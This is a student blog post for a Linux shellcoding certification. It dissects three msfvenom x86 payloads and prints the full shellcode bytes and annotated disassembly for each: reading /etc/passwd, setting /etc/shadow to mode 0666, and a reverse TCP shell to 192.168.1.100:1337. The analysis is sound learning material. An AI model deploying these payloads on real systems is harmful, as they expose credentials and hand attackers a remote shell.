 ```yaml
---
layout: post
title: SLAE 0x5 - Analyze at least 3 shellcode from msfpayload linux/x86
categories: infosec
---
```


![x86 Assembly Language and Shellcoding on Linux]({{"/content/posts/slae.png" | absolute_url }}){: .center}

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](https://www.pentesteracademy.com/course?id=3).

Student ID: PA-7449

# Goal

The goal of this assignment is to demonstrate Linux shellcoding knowledge by analyzing 3 different shellcode from msfpayload/msfvenom linux/x86 category.

# Methods

I used radare2 with Cutter to analyze the shellcode and display the graph call. No other tools or debuggers were harmed during the process.

# linux/x86/read_file

Simple payload that reads up to 4096 bytes from a file and writes it out onto stdout.

    root@kali:~# msfvenom -p linux/x86/read_file PATH=/etc/passwd -f c
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 73 bytes
    Final size of c file: 331 bytes
    unsigned char buf[] = 
    "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8"
    "\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80"
    "\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8"
    "\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff"
    "\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00";

As this shellcode doesn't do a lot of things, it's both simple and small in size. By default msfvenom tries to read /etc/shadow, which so I left it as is. The shellcode relies on JMP-CALL-POP to push */etc/shadow* on the stack, then it starts executing the main part of the shellcode. First it calls SYS_OPEN on /etc/passwd which returns a file descriptor. Using the file descriptor, SYS_READ reads up to 4096 bytes from the file and pushes it onto the stack. The syscall also returns the actual number of bytes read, which the SYS_WRITE call uses later to read the exact number of bytes from the stack. Finally, the shellcode uses SYS_EXIT to gracefully quit.

    / (fcn) fcn.00000000 20
    |   fcn.00000000 ();
    |       ,=< 0x00000000      jmp 0x38 ; jmp to set up /etc/passwd
    / (fcn) fcn.00000002 72
    |   fcn.00000002 ();
    |       |   0x00000002      mov eax, 5 ; sys_open
    |       |   0x00000007      pop ebx ; address of "/etc/passwd"
    |       |   0x00000008      xor ecx, ecx ; null out ECX
    |       |   0x0000000a      int 0x80 ; sys_open - returns file descriptor for file
    |       |   0x0000000c      mov ebx, eax ; move file descriptor into ebx
    |       |   0x0000000e      mov eax, 3 ; sys_read
    |       |   0x00000013      mov edi, esp ; moves stack pointer into edi
    |       |   0x00000015      mov ecx, edi ; moves stack pointer into ecx
    |       |   0x00000017      mov edx, 0x1000 ; size_t count: 4096 bytes max
    |       |   0x0000001c      int 0x80 ; sys_read - attempts to read 4096 bytes onto the stack and returns the number of bytes read
    |       |   0x0000001e      mov edx, eax ; number of read bytes => size_t count
    |       |   0x00000020      mov eax, 4 ; sys_write
    |       |   0x00000025      mov ebx, 1 ; 0x1 stdout
    |       |   0x0000002a      int 0x80 ; sys_write - write EDX number of bytes from the stack to stdout
    |       |   0x0000002c      mov eax, 1 ; sys_exit
    |       |   0x00000031      mov ebx, 0 ; 0x0 error code
    |       |   0x00000036      int 0x80 ; sys_exit
    |       `-> 0x00000038      call 2 ; call part of jmp-call-pop
    |           0x0000003d      das    ; /etc/passwd

**Graph:**

![linux/x86/read_file graph]({{"/content/posts/slae/msfvenom-readpasswd.png" | absolute_url }}){: .center}

# linux/x86/chmod

This shellcode changes the permission settings for a target file. The default setting is to change the permissions of /etc/shadow to 0666.

    root@kali:~# msfvenom -p linux/x86/chmod -f c
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 36 bytes
    Final size of c file: 177 bytes
    unsigned char buf[] = 
    "\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
    "\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
    "\x80\x6a\x01\x58\xcd\x80";

As there is a syscall for chmod (SYS_CHMOD), this shellcode is rather simple. The shellcode pushes /etc/shadow and the required arguments onto the stack, does the syscall and quits gracefully with the SYS_EXIT call.

    / (fcn) fcn.00000000 36
    |   fcn.00000000 ();
    |           0x00000000      cdq    ; sets EDX 0 if EAX is positive
    |           0x00000001      push 0xf ; 15 ; 15 - sys_chmod
    |           0x00000003      pop eax ; sys_chmod
    |           0x00000004      push edx ; push 0x0
    |           0x00000005      call 0x16 ; pushes /etc/shadow address on the stack
    |           0x0000000a      das    ; /etc/shadow
    |       ,=< 0x0000000b      je 0x71 ; data
    |       |   0x0000000e      das    ; data
    |      ,==< 0x0000000f      jae 0x79 ; data
    |      ||   0x00000011      popal  ; data
    |      ||   0x00000012           .byte 0x64 ; data
    |      ||   0x00000013      outsd dx, dword [esi] ; data
    |      ||   0x00000014      ja 0x16 ; data
    |      ||   0x00000016      pop ebx ; pops /etc/shadow address into ebx
    |      ||   0x00000017      push 0x1b6 ; 438 ; octal 0666
    |      ||   0x0000001c      pop ecx ; mode_t mode
    |      ||   0x0000001d      int 0x80 ; sys_chmod
    |      ||   0x0000001f      push 1 ; 1 ; sys_exit
    |      ||   0x00000021      pop eax ; sys_exit => eax
    \      ||   0x00000022      int 0x80 ; sys_exit


**Graph:**

![linux/x86/chmod graph]({{"/content/posts/slae/msfvenom-chmod.png" | absolute_url }}){: .center}

# linux/x86/shell_reverse_tcp 

This shellcode connects to a host on a given TCP port and opens a /bin/sh shell.

    root@kali:~# msfvenom -p linux/x86/shell_reverse_tcp -f c LHOST=192.168.1.100 LPORT=1337
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 68 bytes
    Final size of c file: 311 bytes
    unsigned char buf[] = 
    "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
    "\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x01\x64\x68"
    "\x02\x00\x05\x39\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
    "\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
    "\x52\x53\x89\xe1\xb0\x0b\xcd\x80";

This shellcode is very similar to the one I did in Assignment 2, but the order of the syscalls is different. First the code creates a socket with SYS_SOCKETCALL-SYS_SOCKET and connects it to stdin, stdout and stderr with DUP2. After these are done, SYS_SOCKETCALL-SYS_CONNECT connects to the remote address and then the code invokes a /bin/sh shell. Other than the different order, it's basically the same workflow as the shellcode in SLAE0x2.

        / (fcn) fcn.00000000 68
    |   fcn.00000000 ();
    |           0x00000000      xor  ebx, ebx ; EBX = 0x00
    |           0x00000002      mul  ebx ; EBX * EAX => EAX = 0x00
    |           0x00000004      push ebx ; any protocol
    |           0x00000005      inc  ebx ; 0x1 - SYS_SOCKET
    |           0x00000006      push ebx ; 0x1 SOCK_STREAM
    |           0x00000007      push 2 ; 2 ; 0x2 AF_INET
    |           0x00000009      mov  ecx, esp ; call args
    |           0x0000000b      mov  al, 0x66 ; 'f' ; 102 ; sys_socketcall
    |           0x0000000d      int  0x80 ; SYS_SOCKETCALL -> SYS_SOCKET
    |           0x0000000f      xchg eax, ebx ; move file descriptor into EBX
    |           0x00000010      pop  ecx ;  call args
    |       .-> 0x00000011      mov  al, 0x3f ; '?' ; 63 ; dup2
    |       :   0x00000013      int  0x80 ; SYS_DUP2
    |       :   0x00000015      dec  ecx ; 0x2 - stderr, 0x1 - stdout, 0x0 - stdin
    |       `=< 0x00000016      jns  0x11 ; jmp if sign is positive
    |           0x00000018      push 0x6401a8c0 ; 100 1 168 192 (decimal)
    |           0x0000001d      push 0x39050002 ; 0x3905 - 1337 0x0 0x2 - AF_INET
    |           0x00000022      mov  ecx, esp ; function args
    |           0x00000024      mov  al, 0x66 ; 'f' ; 102 ; SYS_SOCKETCALL
    |           0x00000026      push eax ; 0x1
    |           0x00000027      push ecx ; function args
    |           0x00000028      push ebx ; file descriptor
    |           0x00000029      mov  bl, 3 ; 0x3 - SYS_CONNECT
    |           0x0000002b      mov  ecx, esp
    |           0x0000002d      int  0x80 ; SYS_SOCKETCALL -> SYS_CONNECT
    |           0x0000002f      push edx ; 0x0
    |           0x00000030      push 0x68732f6e ; 'n/sh'
    |           0x00000035      push 0x69622f2f ; '//bi'
    |           0x0000003a      mov  ebx, esp ; //bin/sh0x00
    |           0x0000003c      push edx ; 0x0
    |           0x0000003d      push ebx ; file descriptor
    |           0x0000003e      mov  ecx, esp ; address of //bin/sh, 0x00
    |           0x00000040      mov  al, 0xb ; 11 ; SYS_EXECVE
    \           0x00000042      int  0x80 ; SYS_EXECVE //bin/sh


**Graph:**

![linux/x86/shell_reverse_tcp graph]({{"/content/posts/slae/msfvenom-reversetcp.png" | absolute_url }}){: .center}

# Final Thoughts

A great little challenge, it was awesome to finally understand how some of the basic msfvenom shellcodes work. After looking at them, I feel that I would probably use them later instead of larger payloads.

Again, all the code is on my [Github](https://github.com/fuzboxz/SLAE) and if you want to be informed about new posts, just follow me on Twitter at [@fuzboxz](https://twitter.com/fuzboxz).